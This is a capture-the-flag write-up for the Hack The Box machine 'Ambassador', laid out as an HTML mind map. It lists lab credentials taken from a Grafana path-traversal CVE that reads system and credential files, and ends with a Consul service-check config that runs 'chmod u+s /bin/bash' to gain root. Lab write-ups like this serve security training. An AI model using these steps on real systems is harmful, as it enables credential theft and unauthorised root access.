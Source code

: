 ```yaml
---
title: "Hack The Box - Ambassador [Medium]"
date: 2023-08-21T19:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


+++```
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<meta http-equiv="X-UA-Compatible" content="ie=edge">
<title>Markmap</title>
<style>
* {
  margin: 0;
  padding: 0;
}
#mindmap {
  display: block;
  width: 100vw;
  height: 100vh;
}
</style>
<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@highlightjs/cdn-assets@11.8.0/styles/default.min.css"><link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/markmap-toolbar@0.15.3/dist/style.css">
</head>
<body>
<svg id="mindmap"></svg>
<script src="https://cdn.jsdelivr.net/npm/d3@7.8.5/dist/d3.min.js"></script><script src="https://cdn.jsdelivr.net/npm/markmap-view@0.15.3/dist/browser/index.js"></script><script src="https://cdn.jsdelivr.net/npm/markmap-toolbar@0.15.3/dist/index.js"></script><script>(r => {
                setTimeout(r);
              })(() => {
  const {
    markmap,
    mm
  } = window;
  const {
    el
  } = markmap.Toolbar.create(mm);
  el.setAttribute('style', 'position:absolute;bottom:20px;right:20px');
  document.body.append(el);
})</script><script>((getMarkmap, getOptions, root, jsonOptions) => {
          const markmap = getMarkmap();
          window.mm = markmap.Markmap.create('svg#mindmap', (getOptions || markmap.deriveOptions)(jsonOptions), root);
        })(() => window.markmap,null,{"type":"heading","depth":0,"payload":{"lines":[0,1]},"content":"Ambassador","children":[{"type":"heading","depth":1,"payload":{"lines":[2,3]},"content":"PORTS","children":[{"type":"heading","depth":2,"payload":{"lines":[4,5]},"content":"TCP","children":[{"type":"list_item","depth":3,"payload":{"lines":[6,7]},"content":"Discovered open port 3306/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[7,8]},"content":"MySQL 8.0.30-0ubuntu0.20.04.2","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[8,9]},"content":"Discovered open port 80/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[9,10]},"content":"Hugo 0.94.2","children":[]},{"type":"list_item","depth":4,"payload":{"lines":[10,11]},"content":"http-title: Ambassador Development Server","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[11,12]},"content":"Discovered open port 22/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[12,13]},"content":"OpenSSH 8.2p1 Ubuntu 4ubuntu0.5","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[13,14]},"content":"Discovered open port 3000/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[14,15]},"content":"HTTP/1.0 302 Found","children":[]}]}]},{"type":"heading","depth":2,"payload":{"lines":[16,17]},"content":"UDP","children":[{"type":"list_item","depth":3,"payload":{"lines":[18,19]},"content":"None","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[20,21]},"content":"HTTP 10.10.11.183:80","children":[{"type":"heading","depth":2,"payload":{"lines":[24,25]},"content":"Content","children":[{"type":"list_item","depth":3,"payload":{"lines":[28,29]},"content":"user: <code>developer</code>","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[31,32]},"content":"HTTP 10.10.11.183:3000","children":[{"type":"heading","depth":2,"payload":{"lines":[35,36]},"content":"Content","children":[{"type":"heading","depth":3,"payload":{"lines":[37,38]},"content":"Unauthorized","children":[{"type":"list_item","depth":4,"payload":{"lines":[38,39]},"content":"Grafana[8.2.0]","children":[]}]},{"type":"heading","depth":3,"payload":{"lines":[40,41]},"content":"Authorized","children":[{"type":"list_item","depth":4,"payload":{"lines":[42,43]},"content":"Data Source - <code>mysql.yml</code>","children":[]}]}]},{"type":"heading","depth":2,"payload":{"lines":[44,45]},"content":"Login","children":[{"type":"heading","depth":3,"payload":{"lines":[46,47]},"content":"<code>admin:messageInABottle685427</code>","children":[]}]},{"type":"heading","depth":2,"payload":{"lines":[48,49]},"content":"CVEs","children":[{"type":"heading","depth":3,"payload":{"lines":[50,51]},"content":"CVE-2021-43798 *","children":[{"type":"fence","depth":4,"content":"<pre><code><span class=\"hljs-symbol\">developer:</span><span class=\"hljs-symbol\">x:</span><span class=\"hljs-number\">1000</span><span class=\"hljs-symbol\">:</span><span class=\"hljs-number\">1000</span><span class=\"hljs-symbol\">:developer</span><span class=\"hljs-symbol\">:/home/developer</span><span class=\"hljs-symbol\">:/bin/bash</span>\n</code></pre>\n","children":[],"payload":{"lines":[52,55]}},{"type":"bullet_list","depth":4,"payload":{"lines":[56,63]},"content":"","children":[{"type":"list_item","depth":5,"payload":{"lines":[56,57]},"content":"<code>/var/lib/grafana/grafana.db</code>","children":[]},{"type":"list_item","depth":5,"payload":{"lines":[57,58]},"content":"<code>/etc/mysql/mysql.conf.d/mysqld.cnf</code>","children":[]},{"type":"list_item","depth":5,"payload":{"lines":[58,59]},"content":"<code>/etc/grafana/grafana.ini</code>","children":[{"type":"list_item","depth":6,"payload":{"lines":[59,60]},"content":"<code>admin_password = messageInABottle685427</code>","children":[]}]},{"type":"list_item","depth":5,"payload":{"lines":[60,61]},"content":"<code>/etc/grafana/provisioning/datasources/mysql.yml</code>","children":[{"type":"list_item","depth":6,"payload":{"lines":[61,62]},"content":"<code>grafana:dontStandSoCloseToMe63221!</code>","children":[]}]}]}]}]}]},{"type":"heading","depth":1,"payload":{"lines":[63,64]},"content":"DB 3306","children":[{"type":"list_item","depth":2,"payload":{"lines":[67,68]},"content":"<code>use whackywidget; -&gt; select * from users; -&gt; developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[68,69]},"content":"<code>anEnglishManInNewYork027468</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[69,70]},"content":"userFlag","children":[]}]}]}]},{"type":"heading","depth":1,"payload":{"lines":[71,72]},"content":"SSH 22","children":[{"type":"list_item","depth":2,"payload":{"lines":[75,76],"index":1},"content":"1. Files on the System","children":[{"type":"list_item","depth":3,"payload":{"lines":[76,77]},"content":"<code>/home/developer/.gitconfig</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[77,78]},"content":"<code>/opt/my-app/</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[78,79]},"content":"<code>/opt/my-app/put-config-in-consul.sh</code>","children":[{"type":"list_item","depth":5,"payload":{"lines":[79,80]},"content":"<code>consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD</code>","children":[]}]}]},{"type":"list_item","depth":3,"payload":{"lines":[80,81]},"content":"<code>/home/developer/.profile</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[81,82]},"content":"<code>/home/developer/.bash_history</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[82,83]},"content":"<code>/root/</code> ?","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[83,84]},"content":"<code>consul</code> *","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[84,85]},"content":"<code>/opt/consul/raft/raft.db</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[85,86]},"content":"<code>/development-machine-documentation/*</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[86,87]},"content":"<code>/development-machine-documentation/deploy.sh</code>","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[87,88]},"content":"<code>/opt/my-app/whackywidget/put-config-in-consul.sh</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[88,89],"index":2},"content":"2. Installed Applications","children":[{"type":"list_item","depth":3,"payload":{"lines":[89,90]},"content":"consul","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[90,91],"index":3},"content":"3. Network","children":[{"type":"list_item","depth":3,"payload":{"lines":[91,92]},"content":"tcp 127.0.0.1:8300","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[92,93]},"content":"tcp 127.0.0.1:8301","children":[{"type":"list_item","depth":4,"payload":{"lines":[93,94]},"content":"empty reply for HTTP","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[94,95]},"content":"tcp 127.0.0.1:8302","children":[{"type":"list_item","depth":4,"payload":{"lines":[95,96]},"content":"empty reply for HTTP","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[96,97]},"content":"tcp 127.0.0.1:8500","children":[{"type":"list_item","depth":4,"payload":{"lines":[97,98]},"content":"Consul UI","children":[]},{"type":"list_item","depth":4,"payload":{"lines":[98,99]},"content":"Content: <code>Consul Agent: UI disabled. To enable, set ui_config.enabled=true in the agent configuration and restart</code>","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[99,100]},"content":"tcp 127.0.0.1:8600","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[100,101]},"content":"tcp 127.0.0.1:3306","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[101,102],"index":4},"content":"4. Running Processes","children":[{"type":"list_item","depth":3,"payload":{"lines":[102,103]},"content":"<code>/usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[103,104],"index":5},"content":"5. Scheduled Jobs/Tasks","children":[{"type":"list_item","depth":3,"payload":{"lines":[104,105]},"content":"<code>find /etc/consul.d/config.d/* -mmin +10 -delete</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[105,106],"index":6},"content":"6. System","children":[{"type":"list_item","depth":3,"payload":{"lines":[106,107]},"content":"Sudo version 1.8.31","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[107,108]},"content":"PermitRootLogin yes","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[109,110]},"content":"Consul Research","children":[{"type":"list_item","depth":2,"payload":{"lines":[111,112]},"content":"https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[112,113]},"content":"https://developer.hashicorp.com/consul/docs/services/usage/checks","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[113,114]},"content":"https://developer.hashicorp.com/consul/commands/exec","children":[]}]},{"type":"heading","depth":1,"payload":{"lines":[115,116]},"content":"Root","children":[{"type":"list_item","depth":2,"payload":{"lines":[116,117]},"content":"<code>export CONSUL_HTTP_TOKEN=bb03b43b-1d81-d62b-24b5-39540ee469b5</code>","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[117,118]},"content":"<code>consul catalog nodes</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[118,119]},"content":"<code>ambassador 27361fb5-583a-5db0-27bf-ecfed7b4b669 127.0.0.1 dc1 lan=127.0.0.1, lan_ipv4=127.0.0.1, wan=127.0.0.1, wan_ipv4=127.0.0.1 consul-network-segment=</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[119,120]},"content":"<code>find / -type d -writable 2&gt;/dev/null</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[120,121]},"content":"<code>/etc/consul.d/config.d</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[121,122]},"content":"<code>touch /etc/consul.d/config.d/syl.hcl</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[122,137]},"content":"<pre><code class=\"language-hcl\">service {\n    name = &quot;dummy-service&quot;\n    id   = &quot;dummy-service-1&quot;\n    port = 8080\n\n    check = {\n        id = &quot;mem-util&quot;\n        name = &quot;Memory utilization&quot;\n        args = [&quot;chmod&quot;, &quot;u+s&quot;, &quot;/bin/bash&quot;]\n        interval = &quot;10s&quot;\n        timeout = &quot;1s&quot;\n    }\n}\n</code></pre>\n","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[137,138]},"content":"<code>consul reload</code>","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[138,139]},"content":"<code>/bin/bash -p</code>","children":[]}]}]},{})</script>
</body>
</html>
```
